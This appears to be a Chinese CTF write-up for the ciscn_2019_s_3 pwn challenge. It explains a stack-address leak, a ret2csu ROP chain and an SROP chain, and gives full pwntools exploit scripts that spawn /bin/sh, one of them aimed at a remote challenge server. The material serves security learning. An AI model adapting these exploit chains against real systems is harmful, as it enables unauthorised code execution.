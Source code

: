 ```yaml
---
title: SROP
categories: 
    - Stack
    - SROP
---
```

# SROP
<!--more-->
## _ciscn_2019_s_3

main里只有一个vuln函数
直接进去看

![205415324135211](https://raw.githubusercontent.com/YTrick/image/branch/image/20201202170418.png)

![202](https://raw.githubusercontent.com/YTrick/image/branch/image/20201202171801.png)

看汇编分析：

需要在栈上构造/bin/sh，并且需要rax=59让64位的syscall执行execve才能getshell

64 位：系统调用号放入 rax，参数依次放到 rdi、rsi、rdx，返回值放在 rax

64位程序前六个寄存器调用顺序：rdi rsi rdx rcx r8 r9

寄存器大概布局：
rax = 59
rdi = /bin/sh
rsi = 0
rdx = 0

注意到vuln函数末尾并没有使用leave指令，即直接把之前push的rbp当作return address
我们要ROP的话offset只需要0x10

先构造/bin/sh在栈中

exp：

```python
from pwn import *
p = process('./ciscn_s_3')
elf = ELF('./ciscn_s_3')
context.log_level = 'debug'
vuln_addr = 0x0004004ED
payload = '/bin/sh\x00' + 'A'*0x8 + p64(main_addr)
p.sendline(payload)
p.recv(0x20)
stack_addr = u64(p.recv(8))
print(hex(stack_addr))
```

![20201202211800](https://raw.githubusercontent.com/YTrick/image/branch/image/20201202211800.png)

![20201202211855](https://raw.githubusercontent.com/YTrick/image/branch/image/20201202211855.png)

发现/bin/sh已经在栈中了，在打印到0x20的时候，接下来是打印出来一个地址，这也是为什么需要recv的原因，这个地址是栈上面的，所以只要算出这个地址和/bin/sh地址的相对偏移，就可以在程序每次执行的时候算出binsh的地址了，因为地址会变，但是偏移不会

我们输出了地址stack_addr

计算偏移量 0x7ffdc7824d78 - 0x007FFDC7824C60 = 0x118

所以计算binsh_addr = stack_addr - 0x118

构造完/bin/sh之后，在程序中有给我们一个gadgets函数：

![20201203155951](https://raw.githubusercontent.com/YTrick/image/branch/image/20201203155951.png)

只要我们跳到地址0x4004E2就能把3Bh（59）赋值给rax，这样系统调用号的参数也搞定了

接下来可以利用csu把 rsi = 0，rdx = 0 ，最后用pop rdi ; ret存上/bin/sh就万事大吉了

![20201203161803](https://raw.githubusercontent.com/YTrick/image/branch/image/20201203161803.png)

需要注意的是call这个地方call的是r12地址上的内容，我们这里要call的是mov rax,3Bh ，而mov rax,3Bh可以存在/bin/sh\x00aaaaaaaa(一共长0x10)后面，所以r12 = binsh_addr + 0x10

exp:

```python
from pwn import *

p=remote('node3.buuoj.cn',27933)
#p = process('./ciscn_s_3')
elf = ELF('./ciscn_s_3')
context.log_level = 'debug'

main_addr = elf.symbols['main']
vuln_addr = 0x0004004ED

payload = '/bin/sh\x00' + 'A'*0x8 + p64(vuln_addr)
p.sendline(payload)
p.recv(0x20)
stack_addr = u64(p.recv(8))
print(hex(stack_addr))


binsh_addr = stack_addr - 0x118
pop_rbx_rbp_r12_r13_14_r15 = 0x40059A
mov_rdx_r13 = 0x400580
mov_rax_59 = 0x4004E2
pop_rdi = 0x4005a3
syscall_addr = 0x400501

payload = '/bin/sh\x00' + 'A'*0x8 + p64(mov_rax_59) 
payload += p64(pop_rbx_rbp_r12_r13_14_r15) 
payload += p64(0) + p64(1) + p64(binsh_addr+0x10) + p64(0)*3
payload += p64(mov_rdx_r13) + 'a'*(6*8+8) 
payload += p64(pop_rdi) + p64(binsh_addr) + p64(syscall_addr)

p.sendline(payload)
p.interactive()
```

[参考链接](https://www.yuque.com/chenguangzhongdeyimoxiao/xx6p74/edumds)


## SROP

exp:

```python
from pwn import *

p = process('./ciscn_s_3')
context.binary=('./ciscn_s_3')
context.terminal = ['gnome-terminal','-x','sh','-c']

main=0x0004004ED
sigret=0x4004DA
sys=0x400517

pl1='/bin/sh\x00'*2+p64(main)
p.send(pl1)
p.recv(0x20)
sh=u64(p.recv(8))-0x118
print(hex(sh))

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = sh
frame.rsi = 0
frame.rdx = 0
frame.rip= sys

pl1='a'*16+p64(sigret)+p64(sys)+str(frame)

pl2='/bin/sh\x00'*2+p64(sigret)+p64(sys)+str(frame)
p.send(pl2)
p.interactive()
```

[参考链接](https://blog.csdn.net/github_36788573/article/details/103541178)


